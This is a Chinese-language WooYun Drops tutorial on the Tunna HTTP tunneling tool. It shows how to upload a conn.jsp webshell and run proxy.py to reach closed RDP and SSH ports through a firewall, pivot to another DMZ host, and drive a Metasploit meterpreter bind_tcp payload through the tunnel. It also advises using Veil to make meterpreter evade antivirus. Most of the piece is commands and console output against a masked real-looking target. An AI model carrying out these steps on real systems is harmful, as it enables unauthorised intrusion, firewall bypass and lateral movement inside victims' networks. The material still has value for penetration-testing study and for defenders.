


# tunna 工具使用实例

2013/09/28 22:56 | [mickey](http://drops.wooyun.org/author/mickey "由 mickey 发布") | [工具收集](http://drops.wooyun.org/category/tools "查看 工具收集 中的全部文章") | 占个座先 | 捐赠作者

### 原理:就是个 HTTP tunneling 工具

```
 +-------------------------------------------+                     +-------------------------------------------+
 | Local Host                                |                     | Remote Host                               |
 |-------------------------------------------|                     |-------------------------------------------|
 |   +----------+       +------------+       |   +-------------+   |   +------------+        +----------+      |
 |   |Client App|+----->|Local Proxy |<==========|  Firewall   |======>|  Webshell  |+------>|Server App|      |
 |   +----------+       +------------+       |   +-------------+   |   +------------+        +----------+      |
 +-------------------------------------------+                     +------------------------------------------ +

```

可以看出该工具先使用 proxy.py 监听本地一个端口,然后连接部署在远程 WEB 的 webshell,远端的 webshell 会把端口转发请求转发到本地或者本地内网远程的主机,从而实现 HTTP tunneling.这对于内网入侵来说,是很有用的一个工具.

该工具看起来是不是有似曾相识的感觉,恩.其实和 reduh 原理是一样的,不过 tunna 更稳定,速度更快.

下载地址是:[`www.secforce.com/media/tools/tunna_v0.1.zip`](http://www.secforce.com/media/tools/tunna_v0.1.zip)

下面讲解 4 个实例,就能掌握该工具使用方法了.

### 实例 1:

网站对外只开放了 80 端口,其他的端口都是关闭的,通过 CVE-2013-225 得到 JSP 的 WEBSHELL 后,上传 conn.jsp,做转发,实现连接本机的其他端口.

直接扫描发现 3389 是关闭的

```
mickey@pentest:~# nmap -sS -p3389 219.x.x.x

Starting Nmap 6.40 ( http://nmap.org ) at 2013-09-26 22:47 EDT
Nmap scan report for 219.x.x.x
Host is up (0.0088s latency).
PORT     STATE SERVICE
3389/tcp close 
```

通过 webshell 上传 conn.jsp 到主机上,本地开始连接

```
python proxy.py -u http://219.x.x.x/conn.jsp -l 1234 -r 3389 -v 
```

参数含义如下:

```
-l 表示本地监听的端口
-r 远程要转发的端口
-v 详细模式 
```

然后本地执行

```
rdesktop 127.0.0.1:1234 
```

就可以连接到目标的 3389 了



### 实例 2:

对于有些服务,比如 SSH,还需要添加-s 参数,才能保证连接的时候不会中断.

```
python proxy.py -u http://219.x.x.x/conn.jsp -l 1234 -r 22 -v -s

ssh localhost -p 1234 
```



### 实例 3:

场景:已经得到 DMZ 区的一台主机的 JSPSHELL,该主机的内网 IP 是 172.16.100.20,通过查点,发现 DMZ 区还有其他的主机(172.16.100.20),并且开放了 3389,我们想利用 HTTP tunneling,连接到 172.16.100.20 的 3389,命令如下

```
python2.7 proxy.py -u http://219.x.x.x/conn.jsp -l 1234 -a 172.16.100.20 -r 3389 
```

这里多了一个-a 参数,意义是要转发的 IP

### 实例 4:

对于喜欢 metasploit 的朋友,该工具也支持,不过如果对方有杀软的话,建议先用 veil 做好 meterpreter 的免杀.

首先把 tunna_exploit.rb 拷贝到 msf 的 modules/exploits/windows/misc 目录.

```
cp ~/tunna_exploit.rb /root/metasploit-framework/modules/exploits/windows/misc 
```

然后开始利用

```
msf > use exploit/windows/misc/tunna_exploit
msf exploit(tunna_exploit) > set PAYLOAD windows/meterpreter/bind_tcp
PAYLOAD => windows/meterpreter/bind_tcp
msf exploit(tunna_exploit) > set RHOST 1.3.3.7  <-- 注意这里是指本地的公网 IP
RHOST => 1.3.3.7
msf exploit(tunna_exploit) > set TARGETURI http://219.x.x.x:8080/conn.jsp
TARGETURI => http://219.x.x.x:8080/conn.jsp
msf exploit(tunna_exploit) > set VERBOSE true
VERBOSE => true
msf exploit(tunna_exploit) > exploit -j 
```

tunna 除了支持 jsp 还支持以下环境和脚本

conn.jsp Tested on Apache Tomcat (windows + linux) conn.aspx Tested on IIS 6+8 (windows server 2003/2012) conn.php Tested on LAMP + XAMPP + IIS (windows + linux)

使用的时候需要注意:metasploit 里的脚本只对应 metasploit 使用.

版权声明：未经授权禁止转载 [mickey](http://drops.wooyun.org/author/mickey "由 mickey 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [说说 RCE 那些事儿](http://drops.wooyun.org/tools/3786)
*   [charles 使用教程指南](http://drops.wooyun.org/tips/2423)
*   [Burp Suite 使用介绍（三）](http://drops.wooyun.org/tips/2247)
*   [Android UXSS 阶段性小结及自动化测试](http://drops.wooyun.org/tools/3186)
*   [使用 sqlmap 中 tamper 脚本绕过 waf](http://drops.wooyun.org/tools/4760)
*   [Burp Suite 使用介绍（二）](http://drops.wooyun.org/tools/1629)